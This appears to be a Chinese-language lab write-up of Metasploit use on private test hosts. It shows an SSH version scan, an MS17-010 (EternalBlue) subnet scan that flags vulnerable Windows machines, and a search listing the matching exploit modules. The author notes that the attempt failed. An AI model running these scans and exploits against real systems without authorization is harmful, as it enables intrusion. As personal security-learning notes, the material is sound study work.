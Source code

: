 ```
msf6 auxiliary(scanner/rdp/rdp_scanner) > use auxiliary/scanner/ssh/ssh_version 
msf6 auxiliary(scanner/ssh/ssh_version) > set rhosts 192.168.111.128
rhosts => 192.168.111.128
msf6 auxiliary(scanner/ssh/ssh_version) > run

[*] 192.168.111.128:22    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### 当然还有很多就不体验了，主要是菜不知道干嘛

## 内网攻击姿势-ms17-010失败(session很容易就挂掉了)

```
msf6 exploit(multi/handler) > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set threads 10
threads => 10
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.117.130/24
rhosts => 192.168.117.130/24
msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit 
[-] 192.168.117.1:445     - An SMB Login Error occurred while connecting to the IPC$ tree.
[+] 192.168.117.128:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
[+] 192.168.117.130:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[-] 192.168.117.129:445   - An SMB Login Error occurred while connecting to the IPC$ tree.

```

通过扫描结果发现`192.168.117.128:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)`

查询合适的exp

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
